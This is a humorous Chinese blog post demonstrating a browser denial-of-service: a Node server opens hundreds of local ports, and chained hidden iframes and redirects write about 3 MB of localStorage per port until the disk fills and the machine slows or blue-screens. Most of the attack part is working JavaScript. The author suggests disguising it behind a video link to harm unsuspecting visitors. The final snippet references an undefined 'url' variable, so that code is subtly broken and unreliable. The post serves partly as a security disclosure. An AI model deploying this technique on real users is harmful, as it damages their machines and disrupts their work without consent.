 ```yaml
---
layout: post
title: "作为一个前端，可以如何机智地弄坏一台电脑？"
date: 2015-07-06 22:30
comments: true
reward: true
tags: 
	- 安全 
	- javascript
	- 黑科技
---
```


有人说，前端的界限就在浏览器那儿。

无论你触发了多少bug，最多导致浏览器崩溃，对系统影响不到哪去。
这就像二次元各种炫酷的毁灭世界，都不会导致三次元的世界末日。
然而，作为一个前端，我发现是有方式打开次元大门的…

这个实验脑洞较大，动机无聊，但某种意义上反映了一些**安全问题**。
想象一下，有天你在家里上网，吃着火锅还唱着歌，**点开一个链接，电脑突然就蓝屏了**！想想还真有点小激动。


### 起因

故事得从localStorage说起。

html5的本地存储，相信大家都不陌生。将数据以二进制文件形式存储到本地，在当前应用得非常广泛。
windows下的chrome，localStorage存储于``C:\Users\xxx\AppData\Local\Google\Chrome\User Data\Default\Local Storage``文件夹中。但如果任由网页无限写文件，对用户硬盘的伤害可想而知，因而浏览器对其做了大小限制。

对于一个域名+端口，PC侧的上限是5M-10M之间，移动侧是则不大于2.5M。

那么问题就变成：**这样的限制足够保护用户硬盘了吗**？

### 关键

关键的问题在于，这一限制，针对的是一个``域名+端口``。
也就是说，你访问``同一个域名的不同端口``，它们的localStorage并无关联，是分开存储的。

我用node简单地开启了服务器，这时，用户访问``http://127.0.0.1:1000``到``http://127.0.0.1:1099``这100个端口，会请求到同一个页面：``index.html``：

```
var http = require('http');
var fs = require('fs');

//100个端口
for(var port = 1000; port< 1100; port++){
  http.createServer(function (request, response) {
    //请忽略这种循环读文件的方式，只为了简便
    fs.readFile('./index.html', function(err, content){
      if(err) {
      } else {
        response.writeHead(200, { 'Content-Type' : 'text/html; charset=UTF-8' });
        response.write(content);
        response.end();
      }
    });
  }).listen(port, '127.0.0.1');
}
```

当然，这个index.html里涉及了localStorage写操作。

```
var s = "";
//慢慢来，别写太大了，好害怕…
for(var i=0; i< 3 * 1024 * 1024; i++){
  s += "0";
}
localStorage.setItem("testData", s);
```

我试着用浏览器分别访问了几个端口，结果是分开存储。一切跟剧本一样。

### 自动遍历

但这种程度还不够。
如果要实验变得更好（xie）玩（e）一些，问题就变成如何``让用户自动遍历这些端口``？

iframe是个好的尝试。
只要一打开``http://127.0.0.1: 1000``，页面的脚步就会创建一个iframe，去请求``http://127.0.0.1: 1001``，一直循环下去。

```
var Main = (function(){
  var _key = "testData";
  var _max = 1100; //最大限制
  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      //新添加iframe
      var url = "http://127.0.0.1:" + port;
      var $iframe = document.createElement("iframe");
      $iframe.src = url;
      document.getElementsByTagName("body")[0].appendChild($iframe);
    }
  }
})();
```

当然iframe我们还可以设置为不可见，以掩盖这种不厚道的行为…
比方说，有人发给你一个链接，你打开后发现是个视频，而你根本注意不到背后的脚本，在视频播放的几分钟里，快要把你的C盘写满。

然后我就看到请求如潮水渐涨：
![](/assets/blogImg/localstorage1.png)

但是，请求到1081端口，最新的chrome就崩溃掉了…原来iframe嵌套太多，已经到达了浏览器的极限。

###防止浏览器崩溃

C盘还未撑满，同志还需努力。怎么办？

突然想到，到达iframe极限之前，我们可以重定向啊。
每访问50个端口，就使用``window.location.href``重定向一次，去确保浏览器不崩溃。

```
var Main = (function(){
  var _key = "testData";
  var _max = 1200; //最大限制
  var _jumpSpace = 50; //为避免iframe过多导致浏览器crash，每50个执行跳转

  return {
    init: function(){
      //慢慢来，别写太大了，好害怕…
      var s = "";
      for(var i=0; i< 3 * 1024 * 1024; i++){
        s += "0";
      }
      localStorage.setItem(_key, s);

      var port = parseInt(location.port)+1;
      if(port > _max) return;

      if(port % _jumpSpace == 0){
        //每50个，重定向一次
        window.location.href = url;
      }else{
        //新添加iframe
        var $iframe = document.createElement("iframe");
        $iframe.src = url;
        document.getElementsByTagName("body")[0].appendChild($iframe);
      }
    }
  }
})();
```

事实证明，这种蛮拼的方法的确可行。

至此，只要访问``http://127.0.0.1: 1000``，就会往Local Storage文件夹里写入近500M无用数据：
![](/assets/blogImg/localstorage3.png)

里面的数据是这样的：
![](/assets/blogImg/localstorage2.png)


### 继续实验的黑科技

算了下我的C盘还有空间嘛，那就把端口数量从100增长到200个。
结果是这样的，到达了1.17G大小。
![](/assets/blogImg/localstorage4.png)

在后续的实验中，我就慢慢的把端口数量与存储的数据调大。

电脑也运行得越来越慢。这是为什么呢？

我观察到，有时候执行``localStorage.setItem()``后，在文件夹里不一定立即能看到数据文件。
怀疑这些数据会被chrome先放到内存里，以避免重复读写带来的消耗，在空闲或关闭的时机，再写进硬盘里。

但此时，浏览器已经影响到系统了。它处于一种“不会崩溃”，但“因为占用了许多内存，已经妨碍用户电脑的正常使用”的状态。
即使用户关闭了浏览器窗口，也不会很快恢复。要知道读写任务并不是随窗口关闭而终止的，否则浏览器会丢失数据。

遭遇黑科技的人们能做的只有：
1. 等待；
2. 用任务管理器关掉chrome进程，再等待；
3. 相信并尝试“重启电脑解决90%电脑问题”的科学论断

可以说，浏览器的内心几乎是崩溃的。

### 最后

最后，还是得用严肃脸告诫一下：害人之心不可无。
本实验，从一开始就是怀揣着将``安全问题上交给国家的初衷``去做的（是的就是这么纯粹）。

后续，看着C盘还有2G空间，我又把端口增长到2000个，试下会发生什么。
由于请求过多，需要一定时间，我就去做别的事情了。
回来后发现房间安静祥和，美轮美奂，一片蓝光，像是加了特技。

![](/assets/blogImg/localstorage5.png)

那么问题来了，计算机修理哪家强？
有点急…

